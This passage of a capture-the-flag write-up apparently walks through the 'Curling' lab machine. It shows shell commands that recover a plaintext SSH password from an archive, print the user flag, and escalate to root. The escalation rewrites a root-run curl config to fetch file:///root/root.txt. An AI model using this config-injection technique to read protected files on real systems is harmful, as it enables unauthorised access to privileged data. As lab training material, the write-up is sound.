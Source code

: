 Finally extract tar archive we achieved last step. We can get an interesting file "password.txt".
{% highlight shell %}
root@kali:~# mv password_backup_bin password_backup_bin.tar
root@kali:~# tar -xvf password_backup_bin.tar 
password.txt
root@kali:~# cat password.txt 
5d<wdCbdZu)|hChXll
{% endhighlight %}

Now we achieved a following credential.
{% highlight shell %}
floris:5d<wdCbdZu)|hChXll
{% endhighlight %}

We can use this for ssh connection.<br>
user.txt is in the home directory.
{% highlight shell %}
root@kali:~# ssh floris@10.10.10.150

~~~

floris@curling:~$ ls
admin-area  password_backup  user.txt
floris@curling:~$ cat user.txt
65dd1df0713b40d88ead98cf11b8530b
{% endhighlight %}

### 3. Getting Root

Getting root.txt is straitforward.<br>
There is a directory "admin-area" which has some files.
{% highlight shell %}
floris@curling:~/admin-area$ ls -la
total 16
drwxr-x--- 2 root   floris 4096 May 22  2018 .
drwxr-xr-x 6 floris floris 4096 May 22  2018 ..
-rw-rw---- 1 root   floris   25 Mar 24 15:11 input
-rw-rw---- 1 root   floris   92 Mar 24 15:11 report

floris@curling:~/admin-area$ cat input
url = "http://127.0.0.1"

floris@curling:~/admin-area$ cat report
WARNING: Failed to daemonise.  This is quite common and not fatal.
Connection refused (111)
{% endhighlight %}

By editing the file "~/admin-area/input", we can achieve the content of root.txt
{% highlight shell %}
floris@curling:~/admin-area$ echo 'url = "file:///root/root.txt"' > input


{% endhighlight %}
